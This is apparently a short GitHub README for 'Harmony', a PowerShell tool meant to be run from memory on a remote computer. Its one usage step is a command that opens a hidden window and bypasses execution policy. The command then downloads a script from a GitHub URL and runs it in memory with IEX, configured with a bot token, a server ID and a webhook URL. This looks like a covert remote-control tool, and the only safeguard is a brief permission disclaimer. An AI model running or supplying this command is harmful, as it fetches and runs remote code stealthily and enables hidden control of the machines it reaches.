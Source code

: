 # Harmony PowerShell Script

This PowerShell script enables you to run a script directly from memory on a remote computer you own or have permission to use. It allows for greater efficiency and auto-updates whenever the script is updated.

### **Usage Instructions:**

To execute the script, run the following command on the remote computer:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN = '<YOUR_BOT_TOKEN>'; $serverID = '<YOUR_SERVER_ID>'; $whURL = '<YOUR_WEBHOOK_URL>'; IEX (IWR 'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1' -UseBasicParsing); exit"
```

Ensure you have permission to run this script on the target machine.
